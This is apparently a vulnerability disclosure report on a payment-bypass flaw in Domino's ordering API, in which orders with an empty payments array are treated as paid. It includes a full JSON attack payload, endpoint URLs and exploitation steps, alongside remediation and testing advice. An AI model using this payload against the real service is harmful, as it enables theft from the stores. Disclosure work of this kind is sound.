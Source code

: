# Security Vulnerability Report: Domino’s Payment Bypass

## Executive Summary

A critical business logic vulnerability has been identified in Domino’s Power API that allows attackers to place delivery orders without providing payment information. The vulnerability stems from improper validation of empty payment arrays, enabling orders to be processed as “paid” when no payment method is actually provided.

## Vulnerability Details

**Classification:**

- **Category:** Functional/Business Logic
- **Sub-Category:** Other
- **Severity:** Critical

## Affected Systems

**Vulnerable Endpoints:**

- `POST https://order.dominos.com/power/place-order`
- `POST https://order.dominos.com/power/price-order`

**Location:** Domino’s Power API, specifically within the Order.Payments JSON array handling logic

**Vulnerable Parameter:** `Order.Payments` - empty array handling in JSON requests

## Technical Description

The Domino’s online ordering API accepts orders with an empty `Payments: []` array and processes them as if they are fully paid, rather than rejecting them or treating them as Cash on Delivery (COD). In affected store configurations, this results in the order being marked as “paid” in the store’s POS system, even though no payment method was supplied.

When COD prompts are disabled in the store’s Pulse POS settings, delivery staff receive no “Amount Due” notification on manifests or driver slips. This allows orders to be fulfilled and delivered with no payment being collected, as both the backend and driver interface indicate the order has already been paid.

## Proof of Concept

### Attack Payload

```json
{
  "Order": {
    "StoreID": "7450",
    "OrderMethod": "WEB",
    "ServiceMethod": "Delivery",
    "Address": {
      "StreetNumber": "165",
      "StreetName": "E TROPICANA AVE",
      "City": "LAS VEGAS",
      "Region": "NV",
      "PostalCode": "89109"
    },
    "FirstName": "Test",
    "LastName": "Customer",
    "Email": "test@example.com",
    "Phone": "7020000000",
    "Products": [
      {
        "Code": "P12IPAZA",
        "Qty": 1,
        "Options": {
          "O": {
            "1/1": "1.0"
          }
        }
      }
    ],
    "Payments": []
  }
}
```

### Validation Steps

1. **Construct Order Payload:** Create a valid order JSON payload containing:
- Valid store ID
- Menu items
- Delivery address
- Customer details
1. **Set Empty Payments:** Set `"Payments": []` in the payload, omitting any payment information
1. **Submit Request:** Send the payload to `/price-order` → `/place-order`
1. **Observe Results:**
- API returns `Status: 1` (order accepted)
- `Amounts.Payment` equals the total order amount
- `AmountsBreakdown.Cash` shows 0
- Driver or store POS does not indicate payment is due (if COD prompts are disabled)
1. **Order Fulfillment:** The order is delivered without requiring payment

## Business Impact

**Direct Financial Loss:**

- Orders are fulfilled and delivered without payment collection
- Revenue loss equivalent to the value of unpaid orders

**Scalability Risk:**

- Exploitable at scale if attackers enumerate stores with COD enabled and no driver prompts
- Potential for automated attacks targeting multiple locations

**Operational Impact:**

- Driver confusion when systems show conflicting payment status
- Store management challenges in tracking unpaid orders
- Potential inventory losses

## Recommended Remediation

### Immediate Actions

1. **Implement Payment Validation:** Enforce strict validation to reject any order where `Payments` array is empty unless explicitly marked as COD
1. **COD Handling:** If COD is allowed:
- Automatically populate `AmountsBreakdown.Cash` with the order total
- Display “Amount Due” prompts to drivers
- Update POS systems to clearly indicate cash collection required
1. **Backend Validation:** Ensure the backend cannot process an order as fully paid without:
- A valid payment method, OR
- Explicit COD declaration with proper flagging

### Long-term Improvements

1. **Payment Method Validation:** Implement comprehensive validation for all payment types
1. **POS Integration:** Review and strengthen integration between ordering API and POS systems
1. **Driver Interface Updates:** Ensure delivery personnel always receive accurate payment status information
1. **Audit Trail:** Implement logging for all payment-related order processing

## Risk Assessment

**Likelihood:** High - Simple to exploit with basic API knowledge  
**Impact:** High - Direct financial loss and operational disruption  
**Overall Risk:** Critical

## Recommendations for Testing

Before implementing fixes, validate the remediation by:

1. Testing edge cases with various payment array configurations
1. Verifying COD orders are properly flagged throughout the system
1. Confirming driver interfaces display accurate payment information
1. Testing across different store configurations and POS settings

## Conclusion

This vulnerability represents a critical business logic flaw that directly impacts revenue. Immediate remediation is recommended to prevent financial losses and maintain operational integrity. The fix should focus on robust payment validation while ensuring legitimate COD orders continue to function properly.